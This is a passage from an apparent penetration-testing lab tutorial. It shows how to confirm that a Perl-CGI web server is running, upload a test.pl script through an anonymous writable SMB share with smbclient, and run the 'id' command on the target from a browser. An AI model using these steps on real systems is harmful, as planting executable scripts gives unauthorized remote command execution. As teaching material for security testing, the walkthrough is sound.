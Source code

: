 ![](<../../.gitbook/assets/image (277).png>)

Looking at the file, we can determine that index.pl is a script that simply prints some environment variables regarding the web server configuration, as well as confirming that the server is also interpreting Perl scripts.

We’ve learned a bit more about the server. We now know it’s likely configured to process CGI scripts (Perl), but just to make sure, let’s attempt to browse to the HTTP port (which we should have discovered about this server during information gathering and enumeration). Just to confirm, a quick Nmap scan against the target for open ports, confirms that port 80 is in-fact open:

```
nmap -sT 192.168.13.21 --max-retries 1 -n -p 80 --open
```

Let’s point a browser at our target, to confirm that the index.pl script in the “www” share, is being served by the web server.

We also want to make sure that we do in-fact have WRITE permissions to the “www” share; again we’ll do this with smbclient, and the “put” command.

First, let’s create a file locally on your attacker system called “test.pl.” The contents of this file will execute the “id” Linux system command and will display your current UID and GID information when accessed with your browser.

test.pl:

```
#!/usr/bin/perl
print "Content-type: text/html\n\n";
system("id");
```

Next, let’s connect to the “www” share with “smbclient” and issue the “put” command, along with our test.pl file:

```
smbclient \\\\192.168.13.21\\www -N
smb: \> put test.pl
```

Next, let’s point a browser to our test.pl file on the target system and confirm that the output of the “id” command is printed to the page. This will confirm for us that we can upload our own Perl scripts to the server and can execute remote operating system commands through our test script
